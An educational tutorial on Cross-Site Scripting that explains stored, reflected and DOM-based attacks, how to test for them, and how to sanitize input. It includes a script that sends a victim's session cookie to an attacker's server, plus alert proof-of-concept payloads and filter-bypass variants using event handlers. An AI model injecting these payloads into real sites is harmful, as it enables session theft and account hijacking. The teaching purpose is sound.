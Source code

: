 # Cross-Site Scripting (XSS) Attacks

Cross-Site Scripting (XSS) is a common web application vulnerability that occurs when a web application renders unsanitized input to the front end of an application. An attacker takes advantage of this vulnerability by injecting malicious code, generally in the form of JavaScript, through the browser. They can trick a benign website into executing this code for other users. This enables an attacker to steal information from another user’s client-side data, redirect a user to malicious pages, or take control of their browser!

We will walk through different types of such attacks: Stored XSS, Reflected XSS, and DOM-Based XSS.

## Stored XSS

A stored XSS vulnerability occurs when a web server stores an unsanitized user input and displays it to other users. In a worst-case scenario, an attacker can input a malicious script and store it to the vulnerable website, making the script run for all other users on that page.

![An image showing that in Stored XSS attacker an attacker creates a comment with code, the web server saves the comment, the user requests to see the comments, then the server sends the comment to the victim's browser where the code is executed.](./imgs/Cybersecurity_XSS_Stored_v2-03.svg)

Let’s walk through the example in the image above.

Let’s say a website has a poorly designed comment function where the backend does not sanitize user comments. It may be possible for an attacker to add dangerous JavaScript to their comment. Now, any time another user loads the page and the server displays the comment with the bad code to the HTML, that user’s browser will execute the JavaScript code. This is an example of a Stored XSS attack.

This effect makes Stored XSS attacks some of the most serious XSS attacks.

For example, an attacker could have a victim's session cookie sent to another server. If an attacker hosts their own server at, www.localhost:5000, they can inject code into that comment field in order to “infect” the site and run malicious code whenever someone requests to see the comments. Since comments are saved in a vulnerable site's database, this script is stored, and will be retrieved and run whenever a user accesses the comment section. One example could be, instead of writing a review, the attacker writes the following:

```html
<script>
  fetch(`http://localhost:5000?data=${document.cookie}`);
</script>
```

To store the comment in the vulnerable site's database, the attacker can use [encodeURIComponent](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/encodeURIComponent) to parse the text and format it so it is passed as a query parameter to the backend.

> http://examplevulnerablesite.com/?newReview=%3Cscript%3Efetch%28%60http%3A%2F%2Flocalhost%3A5000%3Fdata%3D%24%....Fscript%3E

## Reflected XSS

Reflected XSS occurs when a user’s input is immediately returned back to the user. This return may come in the form of an error message, a popup, or a search term. In these instances, the malicious code is never stored by the server. Rather, it exists as a value in the URL or request.

Despite the bad code not being stored in the database and executed by all victims’ browsers, the attacker can use Reflected XSS to target certain users, forcing them to execute the malicious script. Take a look at the example below where an attacker tricks a user into clicking a script-injected link, set up to steal that user’s credentials!

![An image showing in Reflected XSS that an attacker sends a script injected link to the victim, the victim clicks on it, the victim's browser loads the legitimate site while also executing the malicious script, and then the malicious script sends the user's information to the attacker.](./imgs/Cybersecurity_XSS_Reflected_v2.svg)

## DOM-Based XSS

The DOM, short for Document Object Model, is used to help scripts and the underlying webpage interact. When user input is interpreted by the DOM, an attacker is able to inject malicious code there. These types of vulnerabilities do not cause any changes in how the server responds. Rather, these attacks are completely client-side.

For example, a web page may use client-side Javascript to customize a welcome page, displaying their name based on a value in the URL. Depending on how the Javascript runs, a DOM-Based XSS attack may be able to replace the name value with a malicious script. If a victim loaded the page with the attacker’s code, the vulnerable webpage may execute the code!

![An image with the following steps: 1) Attacker sends link containing malicious code, 2) Victim opens link, 3) Victim's browser sends request to server, 4) Server responds with page 5) Victim's browser loads vulnerable Javascript and executes the attacker's payload.](./imgs/Cybersecurity_XSS_DOM_v2.svg)

## Identifying XSS Vulnerabilities

Let’s look at how we can uncover XSS vulnerabilities in a web application.

As with any vulnerability, it is important that we investigate any potential input areas. When looking at the application, consider all possible fields. Comments, usernames, custom settings, and parameters all provide great starting points.

Once we have identified a potential injection point, we can begin testing various inputs to create a proof-of-concept payload (POC). A POC payload will demonstrate that an issue exists, without causing damage. The most basic POC payload is shown below.

```html
<script>
  alert(1);
</script>
```

If a web server is not properly sanitizing user input, this will return a pop-up box similar to the below image.

![This image shows "<script>alert(1)</script>" was injected into the URL which caused a Javascript alert to show up on the screen.](./imgs/alert.jpg)

If this payload does not work, that does not necessarily mean the system is secure. In fact, many systems will take a flawed approach to protection and block certain words. If a blocklist is in effect your request may be blocked, or your <script> tags could be removed. There are numerous other ways we can execute code, without ever using a <script> tag. Below are some potential workarounds that could be used by an attacker.

```html
<img src="X" onerror="alert(1);" />

<b onmouseover="alert(1)">click me!</b>

<body onload=alert('test1')>
```

## Sanitization

Sanitization is the process of removing/replacing problematic characters with safe versions. Depending on the backend language, there may or may not be built-in functions to aid in this process.

However, if these functions do not exist, we can generally succeed in preventing XSS attacks by removing characters such as <, >, ", =, and potentially dangerous keywords.

Rather than remove characters, we can also replace them with HTML-encoded versions of the characters. This allows us to retain the characters, but remove their capacity to affect the page’s HTML.

For example, the < character would be converted to the “<” string. The browser will render this string as the “<” character, but it will not interpret it as actual HTML, preventing the attack.

It is important to note, however, that depending on how the data is used, this type of escaping may not be enough. It’s important to consider all potential avenues for an attack.

There are also JavaScript packages like [sanitize-html](https://www.npmjs.com/package/sanitize-html) that help sanitizer user inputs!
